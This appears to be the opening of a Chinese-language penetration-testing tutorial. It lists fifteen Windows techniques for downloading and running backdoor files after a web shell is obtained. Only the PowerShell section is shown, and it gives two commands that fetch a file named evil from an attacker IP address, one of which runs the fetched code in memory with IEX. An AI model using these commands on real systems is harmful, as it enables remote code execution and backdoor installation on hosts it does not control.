 当通过Web渗透获取了一个Shell，而且目标主机是Windows，我们该怎么去下载后门文件到目标主机上执行呢？

一般来说，实现Windows文件下载执行的方式不外乎以下几种方式。第一种，远程下载文件到本地，然后再执行；**第二种，远程下载执行，执行过程没有二进制文件落地，这种方式已然成为后门文件下载执行的首要方式。**另外呢，只要你所在服务器的环境支持，你也可以通过任何一门语言来实现它，这种方式暂不在本文的讨论范围之内。

**在这里，本文收集了15种常见的文件下载执行的方式，并结合具体案例**，让我们一起来看看是怎么实现的吧。

---

- PowerShell
- Bitsadmin
- certutil
- wget
- ipc$文件共享
- FTP
- TFTP
- WinScp
- msiexec
- IEExec
- mshta
- rundll32
- regsvr32
- MSXSL.EXE
- pubprn.vbs

---


# 1、PowerShell
PowerShell是一种命令行外壳程序和脚本环境，使命令行用户和脚本编写者可以利用。

远程下载文件保存在本地：
```
powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.28.128/imag/evil.txt','evil.exe')
```

远程执行命令：
```
powershell -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.28.128/imag/evil.txt'))"
```
![20200413-1.png](../../_img\05-应急响应/1656916351926-4bf36904-92e8-4e4d-8264-315a1fcd3fe2.png)

